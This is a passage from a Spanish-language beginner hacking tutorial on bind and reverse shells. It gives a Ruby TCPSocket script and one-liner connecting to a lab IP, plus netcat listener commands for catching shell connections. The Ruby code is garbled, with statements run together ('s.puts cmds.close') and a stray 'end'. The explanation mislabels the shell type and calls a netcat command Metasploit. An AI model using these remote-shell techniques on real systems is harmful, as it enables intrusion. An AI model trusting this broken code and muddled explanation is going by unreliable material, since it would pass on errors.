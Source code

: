 En una proxima entrada de Hacking 101 mencionaremos como obtener diferentes Shell con otros servicios siendo estos con Perl, Python y adicionales además de conocer la interacción de Spawing TTY Shell, así tambien recordarles que desde un Fichero PHP es posible tambien realizar este tipo de conexiones, espero que esta entrada y las que vienen sean de su agrado tanto como las técnicas y las que estan siendo realizadas para los que recien comienzan con el fin de afianzar sus conocimientos e ir aprendiendo paso a paso.


***En el Bind Remote Shell; el atacante debe crear un script y solicitar conexión con la victima.***

***La victima: debe abrir el puerto, por ejemplo el puerto 8182 que es de tipo HTTP***

Para realizar este ataque, debemosconocer la IP de la víctima.

```rb
require 'socket'

s = TCPSocket.new("192.168.109.129",9876)
loop do
  cmd = gets.chomp
  s.puts cmds.close if cmd == "exit"
  puts s.recv(10000)
  end
end

```

Netcat es una herramienta de red que permite a través de intérprete de comandos abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto en concreto y forzar conexiones UDP/TCP.

Un ejemplo de uso sencillo donde podemos enviarnos información de texto de una máquina a otra como si de un chat se tratara.

nc sería el comando para invocar a netcat. Windows se queda a la escucha -l(listening) a espera de establecer la conexión, en modo verbose(nos muestra lo que está escuchando) -v, en el puerto 1190 -p(port).

Desde metasploit: `~$ nc -lvp 9876` y ejecutar, por mientras en la terminal correr: `chmod +x bind_shell.rb` y ejecutamos bind asi: `$ ./bind_shell.rb`.

***Ver IP: $ ip addr***

En la terminal del user: puedo escribir cualquier dato y este se reflejará en al remote shell del atacante, pero si el user escribe `exit` este se cierra, y al user le aparecerá un error en la terminal asi: `'recv': close stream (IOError)`.


Podemos hacer lo mismo desde la terminal y en una sola linea de código, solo debemos reemplazar por `;` los saltos de lineas.

Terminal: `$ ruby -rsocket -e's = TCPSocket.new("192.168.109.129",9876);loop do; cmd = gets.chomp; s.puts cmds.close if cmd == "exit"; puts s.recv(10000); end;
end'
`

Reverse: con el puerto 8123, voy a captar la conexión del user, mediante un script: `$ nc -lvp 8123`.
